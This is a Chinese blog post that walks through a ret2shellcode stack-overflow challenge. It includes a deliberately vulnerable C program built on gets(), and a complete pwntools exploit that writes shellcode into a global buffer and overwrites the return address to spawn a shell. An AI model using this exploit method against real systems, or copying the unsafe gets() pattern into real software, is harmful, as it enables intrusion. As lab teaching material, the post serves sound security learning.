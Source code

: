 ```yaml
---
layout:     post
title:      ret2shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2shellcode)



第八行，gets函数存在溢出，ret2shellcode程序没有system，不能直接像ret2text一样利用程序中已有的system('/bin/sh')代码

![image-20180911162609611](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-084850.png)



但是相比ret2text程序多了一个strncpy函数，这个函数的作用是把s中的内容拷贝到buf2中

第一个参数为buf2为目的地址，&s为源地址，0x64u为buf2长度

```c
char *strncpy(char *dest, const char *src, size_t n);

strncpy(buf2, &s, 0x64u);
```

所以这里就出现了一个思路，自己构造shellcode，通过strncpy拷贝到buf2中，然后main函数的返回地址覆盖为buf2的地址

```python
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh()) #pwntools自带的模块

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))
#shellcode.ljust(112, 'a'）左填充
```



> buf2属于全局未初始化变量，在程序编译运行时候，在bss段中，地址固定不变
>
> buf属于局部未初始化变量，每一次程序加载运行在内存中的地址都是变化的

```c
ret2shellcode.c

#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```



exp：

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2shellcode')

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))

sh.interactive()
```




